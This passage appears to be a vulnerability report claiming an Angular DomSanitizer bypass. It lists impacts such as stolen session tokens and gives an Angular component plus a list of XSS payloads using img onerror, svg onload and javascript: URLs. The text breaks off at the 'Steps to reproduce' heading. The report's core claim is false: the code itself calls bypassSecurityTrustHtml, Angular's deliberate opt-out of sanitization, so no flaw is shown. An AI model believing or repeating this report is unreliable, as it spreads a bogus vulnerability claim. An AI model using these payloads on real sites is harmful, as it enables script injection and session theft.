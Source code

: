 #### 💥 IMPACT

This vulnerability allows attackers to:
• Execute arbitrary JavaScript in user browsers
• Steal user session tokens and authentication credentials
• Perform actions on behalf of authenticated users
• Access sensitive user data and application state
• Redirect users to malicious websites

#### 🛠️ PROOF OF CONCEPT

```html
<!-- Component: vulnerable-component.html -->
<div [innerHTML]="trustedHtml"></div>
```

```typescript
// Component: vulnerable-component.ts
import { Component } from '@angular/core';
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';

@Component({
  selector: 'app-vulnerable',
  templateUrl: './vulnerable-component.html'
})
export class VulnerableComponent {
  trustedHtml: SafeHtml;

  constructor(private sanitizer: DomSanitizer) {
    // Malicious payload that bypasses sanitizer
    const maliciousHtml = \`
      <img src="x" onerror="alert('XSS: ' + document.cookie)">
      <svg onload="alert('Sanitizer Bypass: ' + location.href)">
      <iframe src="javascript:alert('Frame Injection')"></iframe>
      <object data="javascript:alert('Object Injection')"></object>
    \`;

    // This should sanitize but has bypass vulnerability
    this.trustedHtml = this.sanitizer.bypassSecurityTrustHtml(maliciousHtml);
  }
}

// Alternative bypass vectors
const bypassPayloads = [
  '<img src=x onerror=alert(1)>',
  '<svg onload=alert(1)>',
  '<iframe src=javascript:alert(1)>',
  '<object data=javascript:alert(1)>',
  '<<img src=x onerror=alert(1)//>'
];
```

#### 🔬 STEPS TO REPRODUCE
